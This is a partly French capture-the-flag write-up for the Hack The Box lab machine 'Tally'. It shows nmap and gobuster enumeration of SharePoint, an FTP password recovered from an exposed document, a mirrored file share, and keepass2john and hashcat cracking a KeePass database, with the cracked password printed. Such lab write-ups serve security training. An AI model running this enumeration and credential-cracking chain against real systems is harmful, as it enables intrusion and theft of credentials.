 # HTB - Tally  10.10.10.59


Windows Server 2016
Microsoft IIS httpd 10.0
SharePoint
SQL Server 2016 13.00.1601.00; RTM

- Well Known URL for Sharepoint


# nmap
```
# nmap -A 10.10.10.59
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-01 18:11 CEST
Nmap scan report for 10.10.10.59
Host is up (0.22s latency).
Not shown: 992 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-generator: Microsoft SharePoint
|_http-server-header: Microsoft-IIS/10.0
| http-title: Home
|_Requested resource was http://10.10.10.59/_layouts/15/start.aspx#/default.aspx
81/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
808/tcp  open  ccproxy-http?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2016 13.00.1601.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: TALLY
|   NetBIOS_Domain_Name: TALLY
|   NetBIOS_Computer_Name: TALLY
|   DNS_Domain_Name: TALLY
|   DNS_Computer_Name: TALLY
|_  Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2019-09-01T16:03:30
|_Not valid after:  2049-09-01T16:03:30
|_ssl-date: 2019-09-01T16:05:15+00:00; -7m40s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=9/1%OT=21%CT=1%CU=33438%PV=Y%DS=2%DC=T%G=Y%TM=5D6BEE0F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=I%CI=RD%II=I%SS=S%TS=
OS:5)SEQ(SP=104%GCD=1%ISR=10B%CI=RD%II=I%TS=B)SEQ(SP=104%GCD=2%ISR=10C%TI=R
OS:D%CI=RD%II=I%TS=B)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M
OS:54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=200
OS:0%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%D
OS:F=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0
OS:%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=
OS:A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=
OS:Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -7m39s, deviation: 0s, median: -7m40s
| ms-sql-info: 
|   10.10.10.59:1433: 
|     Version: 
|       name: Microsoft SQL Server 2016 RTM
|       number: 13.00.1601.00
|       Product: Microsoft SQL Server 2016
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-01 18:05:18
|_  start_date: 2019-09-01 18:02:49

```

# Sharepoint

![](images/tally_sharepoint.png)

# Sharepoint : gobuster with sharepoint list from SecLists

Note : Sharepoint is VERY slow in boxes

```
wget https://github.com/danielmiessler/SecLists/archive/master.zip
```
=> /usr/share/wordlists/SecLists/Discovery/Web-Content/CMS/sharepoint.txt 


```
# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/CMS/sharepoint.txt -u http://tally/
/_layouts/1033/avreport.htm (Status: 200)
/_layouts/1033/filedlg.htm (Status: 200)
/_layouts/1033/fontdlg.htm (Status: 200)
/_layouts/1033/error.htm (Status: 200)
/_layouts/1033/iframe.htm (Status: 200)
/_layouts/1033/images (Status: 301)
....
L'ideal est de connaitre les url interressantes...
```

# Sharepoint : Known sharepoint url  => ftp credentials

![](images/tally_sharepoint_viewlst.png)
http://10.10.10.59/_layouts/viewlsts.aspx


=> Document/ftp-details.docx
apt-get install libreoffice
```
FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in
```

=> Site Pages/Finance Team 
```
Hi all,

Welcome to your new team page!

As always, there's still a few finishing touches to make.  Rahul - please upload the design mock ups to the Intranet folder as 'index.html' using the ftp_user account - I aim to review regularly.

We'll also add the fund and client account pages in due course.

Thanks – Sarah & Tim.
```

!!!!!! Cette page ne s'affiche que si l'url est http:///tally/. Avec http://10.10.10.59, on est redirigé sur l'accueil...

On ajoute tally.htb.local dans /etc/hosts
```
10.10.10.59	tally tally.htb.local
```

# ftp

user : ftp_user
Passwd : UTDRSCH53c"$6hys
```
# ftp tally
Connected to tally.
220 Microsoft FTP Service
Name (tally:root): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
```
 
Mirror localy the server
```
wget --mirror 'ftp://ftp_user:UTDRSCH53c"$6hys@tally.htb.local'
```
=> employees-id_number.xlsx
=> tim.kdbx
=> tim/todo.txt
```
To do:
Remove migration folder
Set secure share permissions
encrypted share creds:
password in keepass
```


# Keepass


```
     keepass2john tim.kdbx 
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
https://hashcat.net/wiki/doku.php?id=example_hashes
$keepass$*2*6000*222*f3 => 
13400 :	KeePass 2 AES / without keyfile 	$keepass$*2*6000*222*a279e37c
13400 : Keepass 2 AES / with keyfile 	$keepass$*2*6000*222*15b6

cat tim.keepass
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da

hashcat -m 13400 tim.keepass

=> simplementeyo

```


